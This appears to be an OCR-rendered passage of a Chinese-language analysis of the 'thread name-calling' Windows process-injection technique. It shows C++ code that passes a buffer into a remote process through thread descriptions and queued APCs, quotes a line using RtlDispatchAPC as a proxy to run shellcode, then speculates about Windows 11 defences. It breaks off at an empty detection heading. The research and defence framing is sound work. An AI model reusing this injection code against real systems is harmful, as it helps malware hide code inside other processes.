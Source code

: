 ```cpp
void* pass_via_thread_name(HANDLE hProcess, const BYTE* buf, size_t bufSize, const void* remotePtr) {
    // 1. 设置线程描述
    UNICODE_STRING ustr = {0};
    RtlInitUnicodeStringEx(&ustr, (PCWSTR)buf);
    NtSetInformationThread(hThread, ThreadNameInformation, &ustr, sizeof(UNICODE_STRING));

    // 2. 队列 APC 调用 GetThreadDescription
    if (!queue_apc_thread(hThread, GetThreadDescription, (void*)NtCurrentThread(), (void*)remotePtr, 0)) {
        return nullptr;
    }

    // 3. 等待缓冲区指针写入
    void* bufferPtr = nullptr;
    while (!read_remote(hProcess, remotePtr, &bufferPtr, sizeof(void*))) {
        Sleep(1000);
        // ❌ Windows 11 Build 26100: 永远不会成功
    }

    return bufferPtr;
}
```

### 关键发现

**官方代码的注释** (main.cpp:165):
```cpp
// RtlDispatchAPC is used as a proxy to call the shellcode
auto _RtlDispatchAPC = GetProcAddress(GetModuleHandle("ntdll.dll"), MAKEINTRESOURCE(8));
```

说明作者也使用了 `RtlDispatchAPC` 作为代理函数，与我们的实现一致。

## 检测与防御

### Microsoft 的防御措施 (推测)

Windows 11 Build 26100 (24H2) 可能实施了以下防御：

1. **APC 调用白名单**:
   - 限制 Special User APC 只能调用特定函数
   - 禁止跨进程调用某些系统 API

2. **PEB 访问保护**:
   - 检测 APC 试图写入 PEB 未使用区域
   - 阻止可疑的内存写入

3. **审计日志**:
   - 记录 `SetThreadDescription` 设置非文本内容
   - 记录跨进程的 APC 队列操作

### 检测方法 (理论)
